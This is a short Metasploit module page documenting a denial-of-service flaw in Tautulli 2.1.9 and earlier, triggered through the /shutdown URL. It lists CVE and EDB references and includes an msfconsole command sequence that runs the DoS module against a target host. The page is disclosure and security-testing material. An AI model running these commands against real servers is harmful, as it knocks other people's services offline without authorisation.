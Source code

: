 # Tautulli 2.1.9 - Shutdown Denial of Service

## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Vulnerable Application :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

## Using

```
msfconsole -q
use auxiliary/dos/http/tautulli_shutdown_exec
set RHOSTS XXX.XXX.XXX.XXX
exploit
```

## References :

CVE:2019-19833
EDB:47785
